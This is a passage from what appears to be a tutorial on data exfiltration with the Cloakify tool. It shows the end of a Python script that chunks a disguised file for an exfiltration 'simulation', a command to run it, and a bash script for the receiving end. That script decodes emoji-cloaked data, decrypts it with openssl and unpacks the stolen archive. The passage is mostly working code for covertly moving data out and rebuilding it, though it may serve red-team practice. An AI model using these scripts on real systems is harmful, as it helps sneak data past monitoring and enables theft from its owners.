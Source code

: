 ```bash
    chunks = chunk_file(cloaked_file, chunk_size)
    print(f"File split into {len(chunks)} chunks of approximately {chunk_size} lines each")
    
    # Ask before starting simulation
    answer = input("Start exfiltration simulation? [y/N] ")
    if answer.lower() == 'y':
        simulate_exfiltration(chunks)
        print("Exfiltration simulation complete")
    else:
        print("Simulation aborted")

if __name__ == "__main__":
    main()
EOF

chmod +x exfil_chunks.py
```

5. **Test the exfiltration process**:

```bash
./exfil_chunks.py exfiltration_ready.txt 5
```

6. **Create a reassembly script for the receiving end**:

```bash
cat > reassemble.sh << 'EOF'
#!/bin/bash

if [ -z "$1" ] || [ -z "$2" ]; then
    echo "Usage: $0 <reassembled_file> <password>"
    exit 1
fi

REASSEMBLED_FILE="$1"
PASSWORD="$2"

# Navigate to Cloakify directory
cd Cloakify

# Decloakify the data
python3 decloakify.py ../reassembled_file.txt ciphers/emoji.txt ../recovered_data.enc

# Decrypt the data
openssl enc -aes-256-cbc -d -salt -in ../recovered_data.enc -out ../recovered_data.tar.gz -k "$PASSWORD"

# Extract the archive
cd ..
mkdir -p recovered_files
tar -xzf recovered_data.tar.gz -C recovered_files

echo "Data has been recovered to the 'recovered_files' directory"
EOF

chmod +x reassemble.sh
```
